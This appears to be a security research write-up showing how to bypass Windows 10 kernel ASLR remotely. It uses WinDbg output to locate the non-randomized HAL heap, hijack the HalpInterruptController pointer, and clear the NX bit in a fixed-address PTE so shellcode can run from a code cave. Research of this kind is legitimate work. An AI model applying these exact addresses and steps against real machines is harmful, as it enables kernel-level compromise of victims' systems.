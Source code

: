 Bypass Kernel ASLR
Target : Windows 10 (remote bypass)
-----------------------------------------------------------------------------
Imagine, you can execute in remote (and you can repeat this action) :

MOVQ [RDI], RSI
You control RDI and RSI

Two questions :
 - Where do we write ?
 - What do we write ?

Don't forget, any access of unmapped memory causes a BSOD. (and Windows has an ASLR kernel since Windows 7)

Ok, lets go, is the ASLR on all modules ?

kd> lm
start end module
00007ff8`10ef0000 00007ff8`110a6000 ntdll
fffff800`1ace4000 fffff800`1acef000 kdcom
fffff800`1ae0f000 fffff800`1b5e3000 nt
fffff800`1b5e3000 fffff800`1b64d000 hal
fffff800`23c00000 fffff800`23c58000 msrpc
fffff800`23c60000 fffff800`23cb9000 FLTMGR
fffff800`23cc0000 fffff800`23ce0000 ksecdd
fffff800`23ce0000 fffff800`23cf3000 clipsp
fffff800`23d00000 fffff800`23dd2000 Wdf01000
fffff800`23de0000 fffff800`23df0000 WDFLDR
fffff800`23df0000 fffff800`23e0e000 acpiex
fffff800`23e20000 fffff800`23eaf000 ACPI
fffff800`23eb0000 fffff800`23eba000 WMILIB
fffff800`23ec0000 fffff800`23f4d000 cng
[...]
kd> lm
start end module
00007ffb`bf920000 00007ffb`bfad6000 ntdll
fffff801`ba400000 fffff801`ba458000 msrpc
fffff801`ba460000 fffff801`ba4b9000 FLTMGR
fffff801`ba4c0000 fffff801`ba4e0000 ksecdd
fffff801`ba4e0000 fffff801`ba4f3000 clipsp
fffff801`ba500000 fffff801`ba5d2000 Wdf01000
fffff801`ba5e0000 fffff801`ba5f0000 WDFLDR
fffff801`ba5f0000 fffff801`ba60e000 acpiex
fffff801`ba620000 fffff801`ba6af000 ACPI
fffff801`ba6b0000 fffff801`ba6ba000 WMILIB
fffff801`ba6c0000 fffff801`ba74d000 cng
fffff801`ba760000 fffff801`ba770000 pcw
fffff801`ba770000 fffff801`ba77a000 msisadrv
fffff801`ba780000 fffff801`ba7c9000 pci
[...]

As Windows 7 and 8 / 8.1, modules are randomized.

Undocumented extension command of windbg : !ptetree
The ptetree command lists all pages allocated for a process and pte2va translates a page table entry to the corresponding virtual address.

kd> !ptetree
[...]
fffff6fb7dbedff8 00000000001EF063 pfn 1ef ---DA--KWEV
 fffff6fb7dbffff8 00000000001EE063 pfn 1ee ---DA--KWEV
 fffff6fb7ffffff0 00000000001ED063 pfn 1ed ---DA--KWEV
 fffff6ffffffe800 0000000000100163 pfn 100 -G-DA--KWEV
 fffff6ffffffe808 0000000000105163 pfn 105 -G-DA—KWEV
[...]
kd> !pte2va FFFFF6FFFFFFE808
ffffffffffd01000

After some reboots, we can figure out that the page with
the ffffffff`ffd00000 address is not randomized.
What is this address ?

kd> !pte ffffffff`ffd00000
PXE at FFFFF6FB7DBEDFF8 [...] PDE at FFFFF6FB7FFFFFF0 PTE at FFFFF6FFFFFFE800
contains 00000000002DD063 [...] contains 00000000002DF063 contains 8000000000001163
pfn 2dd ---DA--KWEV [...] ---DA--KWEV pfn 1 -G-DA--KWEV

windbg shows that the page rights are KWE (RWX) but if we look the containing data, the first bit is set.
So the NX protection is enabled and page is just RW.

Ho... wait ! 
The ffffffff`ffd00000 address reminds me something In october 2011
I published a paper on Windows 7 (32b) kernel ASLR bypass, and I used...
ffd00000 address space !

ffffffff`ffd00000 contains a lot of pointers to HAL.DLL

After a quick search in this DLL we can see :
.data:0000000080052028 HalpHeapStart dq 0FFFFFFFFFFD00000h ; DATA XREF: HalpUnmapVirtualAddress:loc_800156ECr

This is the << heap >> of HAL.
Now our objective is to redirect execution to the shellcode.

A global variable of HAL.DLL is really interesting,
HalpInterruptController.

kd> dq hal!HalpInterruptController L1
fffff800`c3c18990 ffffffff`ffd004b0

![Cat](https://i.imgur.com/rbDkvPL.png)

So we have a call *(ffffffff`ffd004b0+78)(...)
We can try to overwrite this qword and see.

kd> eq ffffffff`ffd004b0+78 4141414141414141
kd> g
KDTARGET: Refreshing KD connection
*** Fatal System Error: 0x0000003b

(0x00000000C0000005,0xFFFFF800C3BD69DB,0xFFFFD000206ACB50,0x000000000000
0000)
[...]
cs=0010 ss=0018 ds=002b es=002b fs=0053 gs=002b
efl=00010002
hal!HalRequestSoftwareInterrupt+0xbb:
fffff800`c3bd69db ffd0 call rax {41414141`41414141}
[...]

Shellcode time !

On windows all PTEs has a fixed address. If you want to access to the 0xffffffffffd00000 PTE you can read 0xFFFFF6FFFFFFE800.
!pte displays this information :

kd> !pte ffffffff`ffd00000
 VA ffffffffffd00000
PXE at FFFFF6FB7DBEDFF8 [...]PDE at FFFFF6FB7FFFFFF0 PTE at FFFFF6FFFFFFE800
contains 00000000002DE063 [...]contains 00000000002E0063 contains 8000000000001163
pfn 2de ---DA--KWEV [...]pfn 2e0 ---DA--KWEV pfn 1 -G-DA--KWEV
kd> dq FFFFF6FFFFFFE800
fffff6ff`ffffe800 80000000`00001163 80000000`00002163
fffff6ff`ffffe810 80000000`f00b007b 80000000`00003163
fffff6ff`ffffe820 80000000`00004163 00000000`00005101
fffff6ff`ffffe830 80000000`00006163 80000000`00007163
fffff6ff`ffffe840 80000000`00008123 80000000`0000b163
fffff6ff`ffffe850 80000000`00009163 80000000`0000a163
fffff6ff`ffffe860 80000000`0000d103 80000000`0000c163
fffff6ff`ffffe870 80000000`00070163 80000000`0000e163

ffffffff`ffd00000 space is full of codecaves, I took a random one, ffffffff`ffd035c0, but NX flag is set :-(
Remember, all PTE have a fixed address.
So, we can overwrite the NX flag of this address :-)

![Cat](https://i.imgur.com/1qgjTBW.png)

So... to remotely bypass kernel ASLR on Windows 10 you
just have to write a shellcode at ffffffff`ffd035c0 (or another
address) and disable the NX flag in the page table entry.
Write ffffffff`ffd035c0 at ffffffff`ffd00528 and... no more !
